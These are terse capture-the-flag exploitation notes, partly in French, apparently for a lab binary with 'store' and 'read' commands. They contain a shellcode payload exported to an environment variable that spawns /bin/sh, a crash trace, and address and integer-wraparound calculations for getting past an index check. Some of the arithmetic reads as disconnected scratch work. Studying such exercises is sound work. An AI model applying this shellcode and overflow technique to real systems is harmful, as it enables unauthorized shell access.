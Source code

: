 ``` Shell
export SHELLCODE=$(python -c 'print "\x90"*1000+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"')
```

On overwrite avec `fgets` dans le `main`

```
Input command: read123456789123456789123456   
 Index: 
Program received signal SIGSEGV, Segmentation fault.
0x08048702 in read_number ()
```

Address of a shellcode : `0xffffd880`
4294957184

Complement's 2
-404
18446744073709551212
18446744073709551212 / 4 = 4611686018427387803

4611686018427387803
-4611686018427387803

4+6+1+1+6+8+6+0+1+8+4+2+7+3+8+7+8+0+3 =  83
8 + 3 = 11
1 + 1 = 2

```
Input command: store
 Number: 4294957184
 Index: -4611686018427387803
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
```

0xffffd528

\x28\xd5\xff\xff

0xffffd5e8
4294956520